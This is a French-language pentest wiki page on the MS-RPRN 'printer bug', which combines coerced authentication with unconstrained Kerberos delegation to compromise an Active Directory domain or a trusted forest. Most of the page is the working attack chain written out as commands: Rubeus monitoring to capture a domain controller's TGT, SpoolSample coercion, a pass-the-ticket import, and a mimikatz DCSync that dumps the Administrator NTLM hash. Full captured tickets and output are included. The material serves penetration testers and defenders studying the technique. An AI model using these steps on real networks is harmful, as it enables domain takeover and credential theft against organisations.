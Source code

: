 ```yaml
---
title: MS-RPRN
permalink: /MS_RPRN/
---
```


# MS-RPRN

**Note**: la vulnérabilité permettant de prendre le contrôle d'une autre forêt est patchée depuis Juillet 2019. Voir [Updates to TGT delegation across incoming trusts in Windows Server](https://support.microsoft.com/en-us/help/4490425/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server). Cependant certains déploiements peuvent encore être vulnérables !

MS-RPRN est un protocole utilisé pour les printers. Il est cependant utilisable pour obtenir un accès administratif dans une forêt ou **sur une autre forêt avec laquelle on un trust**. (Voir [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)).

## Exploitation

L'exploitation utilise les éléments suivants:
- Un accès administratif sur un serveur avec **Unconstrained Delegation**. Par défaut ceci est le cas de tous les contrôleurs de domaine (serveur **CHOCOBO.goldsaucer.local**).
- Un serveur ciblé (serveur **MIDGAR.shinra-inc.local**)
- Il doit y avoir un accès réseau entre les deux serveurs et un trust bidirectionnel si les deux serveurs sont dans des domaines différents (y compris des forêts différentes)
- [Rubeus](https://github.com/GhostPack/Rubeus) et [SpoolSample](https://github.com/leechristensen/SpoolSample) à compiler et mimikatz.

Sur le serveur Chocobo.goldsaucer.local lancer:

``` 
.\Rubeus.exe monitor /interval:5
```

Ce script dumpera tout TGT obtenu par le serveur (ce qui arrivera en raison de l'unconstrained delegation). Laisser tourner et lancer dans un autre terminal:

``` 
.\SpoolSample.exe MIDGAR.shinra-inc.local CHOCOBO.goldsaucer.local
```

Ce second script va utiliser le service MS-RPN pour forcer le serveur MIDGAR à s'authentifier auprès du serveur contrôlé (CHOCOBO). En raison de l'unconstrained delegation, le serveur MIDGAR va envoyer son TGT dans le ticket de service Kerberos. Sur le cmd Rubeus on devrait avoir:

```
[+] 02/12/2018 21:58:26 - 4624 logon event for 'SHINRA-INC\MIDGAR$' from '192.168.80.100'
[*] Target LUID     : 0x2987c3
[*] Target service  : krbtgt

  UserName                 : MIDGAR$
  Domain                   : SHINRA-INC
  LogonId                  : 2721731
  UserSID                  : S-1-5-21-227358413-259298668-3497230074-1001
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 02/12/2018 21:58:26
  LogonServer              :
  LogonServerDNSDomain     : SHINRA-INC.LOCAL
  UserPrincipalName        :

    ServiceName              : krbtgt/SHINRA-INC.LOCAL
    TargetName               :
    ClientName               : MIDGAR$
    DomainName               : SHINRA-INC.LOCAL
    TargetDomainName         : SHINRA-INC.LOCAL
    AltTargetDomainName      : SHINRA-INC.LOCAL
    SessionKeyType           : aes256_cts_hmac_sha1
    Base64SessionKey         : Uhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAXGUypKME=
    KeyExpirationTime        : 01/01/1601 00:00:00
    TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
    StartTime                : 02/12/2018 21:58:26
    EndTime                  : 03/12/2018 06:56:52
    RenewUntil               : 09/12/2018 20:56:52
    TimeSkew                 : 0
    EncodedTicketSize        : 1372
    Base64EncodedTicket      :

      doIFWDCCBVSgAwIBBaEDAgEWooIEUjCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZr
      cmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESoQMCAQKiggPwBIID7FszyHoAYZaQks5oJ8sTbwBtBXG3J+eadLQ/
      ueVE52c/ejXEd8z2YVTpOeN/FPsDUYABuxH4LJbD/dKxAfQNeuTmJUg4frHWqDvOarlmqc1MpQYqVCdY6JReEBNl30N67CycgGHs
      KbtOFhX80YlZrKFYHB1E2gSqIOhetLZydr7DwcAu5sF+NUFmoVc5efCuiJEDmUSp404r+TKf809sQ/v7IFm4ZYioRVPdfD+cQtLY
      OuHgErLFvrH9JRRF2/P9SNE4rvK+lmU8OEQWUnXfRMNKDOzd3Kigq0evkshDX8B7cCX47orK7Gm1YMxSTQrRjyaPl0DFbFOkd1Kj
      Q6QTdqgKkWjKFlAM6IvaB3hzNQv5ZLy3Bx8alkIm89gdR6xxkFx7ta81HSgEB2oDr5YxnSBXcXHUjDWaY3YSo2+Cgi5b8Ck4n932
      H75me2jVSccRajYWZbzjysnB6yGtnv/BivvbjjKWeFJKUdy8Xvh4zwWMiqBjj2tARGKK1XmJCBtehb3t/6GQhVcO6reZl6iS5WOm
      Q1JuASP1iAfQimKnBzljm1wo7dac/sWtCYAL78mkE8HK2phECwlxZ38dUp/yPXxRQ+Z6lCSfxsEF4XfmXDpxBGeNWpd+uvjfXexk
      Qe/Kml6Jwc8W5BGgP/IVlU4c/fPUijKjyXQIMnJZRyeDB32ujYOQb63dwTDWuxo6WTHQapzzoGZm5XAUKikbH+EdKKM4r4qxQ8XP
      8wUbGPppU7pSFN+ZgUtvLLYDV2Md/6ztEzQrRP0rd2uPLYXT6nef75VjR9UEKA1Gjxo8WvyvaXZdRKJQdvi4eWOr4luq3Re70/hF
      Fb8FccI8sEgpS9075dmEEKWgcEt3223ZBwBSbOqF6Emg0wQBypWfEquub57axbdsDop4557YSqliDXGd1DhvWENCGez4nPM4NQYj
      h3X0WeaKC03noJlqiWqXMnYUAoq7Cdo5OCvYORj8XT8eMV9vDXRe16wZVDvcUfqJnLa0605rNZwuX6adkLlre+G7rsJE7UReb6J0
      nnXxJwYHGq0QjilKJp5LX3AB1CexixZdkgxgnXgieQPOUsUton77/OFigcLQKk1/sfY6Qg+wSUxh9kGYCigqFultUp4s6E9cKeSG
      7w+Yb3Kty9XoxCCGAzF5gW2OU58gdHGk5qY+9d8YR35R5C9DLhY3tbtm8+Z1tYeyRUWw0k+Hi1Fwzm4qa0SyNTcFDI6xLmxUtnzJ
      Ce/oN3drOO25QwnLtEPhyBE3UK1RWAaBWetWKFLzAwv8hCyG288MU/8lPMqDXKkddHY43JlCIZzXOlO0X0KmKdJMaEVUUXf0V28h
      ZX/lo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgUhj38P28/6m+AMvTlF4qPZ5iuAtsISQNCNAX
      GUypKMGhEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMTU4MjZa
      phEYDzIwMTgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmty
      YnRndBsQU0hJTlJBLUlOQy5MT0NBTA==

[*] Extracted  1 total tickets
```

On peut alors utiliser mimikatz (ou autre) pour faire un DCsync en utilisant le TGT récupéré. Rubeus permet de faire un pass the ticket:

```
.\Rubeus.exe ptt /ticket:doIFWDCCBVSgAwIBBaEDAgEWooIEU
jCCBE5hggRKMIIERqADAgEFoRIbEFNISU5SQS1JTkMuTE9DQUyiJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEFNISU5SQS1JTkMuTE9DQUyjggQCMIID/qADAgESo
QMCAQKiggPwBIID7F+UEe4HvHR188pbTGRg6+Smi1g5oGhtGqLSUYkDc/bViq8CfwcY2R9FgMqLoTUjUyjFXtsUvTUvoJ8boq7xt4LeUi6+JaCICTZsWy/DG
uisnNpZat1IOP5If7pvJPWwyZApWUMQfK21AHv4T/9lCes6Ilqk3ml3UX+l+rvJjIOxs3To/yhBZuWsxpaTsmg+FIyhY1HpsFuoMIP1GxPKDHuWKeKfOGHxG
2llYZp68f8Je6NpU120XdQC/dBbn2mY972fBfJfD4IpB7QkSAFHkX+vdEFUq4zIk+k/ge8fp4IZSIXzYEn+Bs3i1NqH0XRM23MoALD+h+HhX4bTaYMUeX3mr
W/Eg1mAwIwcDyqUjXT1vcwYNgoOUWKvondsKQBEEGB6VC2eiCFAdEoRSYpNNc8RBB0KPJ87zGLH4zBr6YNuAFj0RAW0WrNL5kImj6LfkUJ7fA+8L30/lqQ/M
/ryOlF43XZ35EuYZr+EADpWmNZgJ0kGyJQH5260xaPqPzrszlMgIqf25ZtplWU3hgYEGnkPtSPqDCfN+OpscSjBylASuzoPglF/2mWNbOoB0LgjUig9apACC
kRjDZhi21BI13RJHLntlzAwQhyUPv648RCPXFfW5wqxrUdzr1FZuPko0ms6hBntCC/FjHRLFElKdSrAGFWxiUE4FFrz9Urn0TsmpbHpzLE0oNpbKqWoC88x4
FNdWoGTRSOQl4syeMrzmpYTVLsCc5J2hQmk+oX2YaewfeEs1yRDWJt8WnHrCUUap04pIFewdlwnG5ojQJuGZuDtsTrBNkRLjcEoYxzmNrMMHYd/OMql30siW
k9Rrpn9lDX7P68fgC1R5rG/1ZyVXPvdcHEQO3i5QWPWF2gmjDznXBroMTOd4cxRZDllWaSPH77RJ7g0eOZLKRW3fd4AVNJBShZ6BqwK1xbhrne9OuBIf/1PE
k77F628T2dJ4H6mG/jnbdih92yQkXOiAYlcpkUBK4I7e/6mKeHt4egHGk0vPjw8u4wu7WGQtFGo9uE1euhELm+Q6l5zlAVLd7rb2vAVPqruFntssfe4RlKse
yN/V+kVteIyAf4u7lyEC64JEjVJHJN2BhrUcFjMY7XzhWKqnubR3zpr7ruk7rxwfP1DC6VbeHwo/GWWbIkn3TMo98NaBSUP0h7UqKtN6WOko8us6LfpBZAOx
ylnFaBS+Erfz4OPD5tlivR0EXFVp6hvKjHb9mfSdtOqAAKaGXV/1NULPUIVtgbyWnDKbj1S6f7wypzBHAnrfWJjfP3EeoNmZt4Xq1xcioEu1ZKYQTOMmfvW7
Epomgc8yidpJHQMb2VJtwVXhuyOGmwvXAVgo4HxMIHuoAMCAQCigeYEgeN9geAwgd2ggdowgdcwgdSgKzApoAMCARKhIgQgv+cfRiBxpphRN8cgCT5Khg3K5
uYK/oaeXVxIm8hTuWehEhsQU0hJTlJBLUlOQy5MT0NBTKIUMBKgAwIBAaELMAkbB01JREdBUiSjBwMFAGChAAClERgPMjAxODEyMDIyMDU2NTJaphEYDzIwM
TgxMjAzMDY1NjUyWqcRGA8yMDE4MTIwOTIwNTY1MlqoEhsQU0hJTlJBLUlOQy5MT0NBTKklMCOgAwIBAqEcMBobBmtyYnRndBsQU0hJTlJBLUlOQy5MT0NBT
A==

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.2.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

On peut alors faire un dcsync avec mimikatz (ici on récupère le hash de Administrator, mais on pourrait récupérer celui de krbtgt):

```
.\mimikatz.exe "lsadump::dcsync /domain:SHINRA-INC.local /user:SHINRA-INC\Administrator"

  .#####.   mimikatz 2.1.1 (x64) built on Sep 25 2018 15:08:14
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:SHINRA-INC.local /user:SHINRA-INC\Administrator
[DC] 'SHINRA-INC.local' will be the domain
[DC] 'MIDGAR.SHINRA-INC.local' will be the DC server
[DC] 'SHINRA-INC\Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 00:00:00
Password last change : 01/12/2018 21:45:58
Object Security ID   : S-1-5-21-227358413-259298668-3497230074-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: d961c5ec5be55f242a4e0671d364fda4
```

## Références
### Outils
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample) 

### Articles
- [Not A Security Boundary: Breaking Forest Trusts (SpecterOps)](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
- [Domain Controller Print Server + Unconstrained Kerberos Delegation = Pwned Active Directory Forest (ADSecurity)](https://adsecurity.org/?p=4056)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
